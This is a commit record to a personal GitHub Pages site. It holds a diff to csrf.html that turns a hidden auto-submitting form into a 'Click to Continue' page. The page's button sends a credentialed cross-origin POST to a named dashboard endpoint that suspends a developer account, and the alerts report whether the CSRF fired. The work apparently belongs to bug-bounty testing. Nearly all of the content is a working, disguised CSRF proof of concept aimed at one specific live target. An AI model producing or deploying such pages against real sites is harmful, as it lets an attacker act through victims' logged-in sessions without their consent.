

Before and after one commit to yuzadef/yuzadef.github.io, a plain HTML site: page csrf.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Updated csrf.html

```diff
--- a/csrf.html
+++ b/csrf.html
@@ -1,16 +1,34 @@
-<!-- csrf-poc.html -->
 <!DOCTYPE html>
 <html>
+  <head>
+    <title>Click to Continue</title>
+  </head>
   <body>
-    <form action="https://bug-bounty-dashboard.k8s.tools-001.d-use-1.braze-dev.com/companies/67f7d3bb775cea006358de5d/developers/67fb60eabffdd6006eda8b8a/suspend" method="POST" target="hiddenFrame">
-      <!-- Empty body because it’s not needed -->
-    </form>
-
-    <iframe name="hiddenFrame" style="display:none;"></iframe>
+    <h2>Click the button to continue</h2>
+    <button onclick="sendRequest()">Click Me</button>
 
     <script>
-      // Auto-submit the form on load
-      document.forms[0].submit();
+      function sendRequest() {
+        fetch("https://bug-bounty-dashboard.k8s.tools-001.d-use-1.braze-dev.com/companies/67f7d3bb775cea006358de5d/developers/67fb60eabffdd6006eda8b8a/suspend", {
+          method: "POST",
+          mode: "cors",
+          credentials: "include",
+          headers: {
+            "Content-Type": "application/json"
+          },
+          body: "" // empty body is okay based on your test
+        })
+        .then(response => {
+          if (response.ok) {
+            alert("CSRF Triggered ✅");
+          } else {
+            alert("CSRF Failed ❌ (maybe CSRF token was required)");
+          }
+        })
+        .catch(error => {
+          alert("Error: " + error);
+        });
+      }
     </script>
   </body>
 </html>
```
Also changed, not shown: test.html (deleted).
